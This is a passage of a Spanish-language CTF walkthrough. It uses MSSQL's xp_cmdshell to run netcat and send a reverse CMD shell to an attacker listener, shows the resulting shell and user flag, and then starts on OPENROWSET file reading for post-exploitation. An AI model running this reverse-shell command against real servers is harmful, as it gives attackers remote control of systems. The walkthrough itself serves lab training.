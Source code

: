 Usa el binario **nc.exe** para mandar una sesión **CMD** al listener:
```batch
SQL (SIGNED\mssqlsvc  dbo@master)> xp_cmdshell "C:\Temp\nc.exe -e cmd Tu_IP 443"
```

Observa la **netcat**:
```batch
rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.11.90] 61311
Microsoft Windows [Version 10.0.17763.7309]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
signed\mssqlsvc
```
Estamos dentro.

Encontraremos la flag del usuario en el escritorio:
```batch
C:\Windows\system32>cd C:\Users\mssqlsvc\Desktop
cd C:\Users\mssqlsvc\Desktop

C:\Users\mssqlsvc\Desktop>type user.txt
type user.txt
...
```


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="OPENROWSET">Abusando de Función OPENROWSET para Leer Archivos Privilegiados del Sistema</h2>

Utilizando herramientas como **winPEASx64** y **adPEAS** no encontramos algo que nos ayude a escalar privilegios.

Además, queda bastante claro que la máquina está muy enfocada en explotar activamente el **servicio MSSQL**.

Buscando un poco lo que podemos hacer, una de las opciones que tenemos es leer archivos internos de forma arbitraria usando la función **OPENROWSET**:

| **Función OPENROWSET** |
|:----:|
| *OPENROWSET es una función de acceso a datos de Microsoft SQL Server que permite consultar datos externos como si fueran tablas locales. Nos puede servir para acceder a otros servidores SQL (mediante OLE DB), leer archivos directamente desde el sistema de archivos (por ejemplo, texto, CSV, XML, etc.) usando la opción BULK e mportar datos ad-hoc, sin necesidad de crear un linked server.* |

<br>
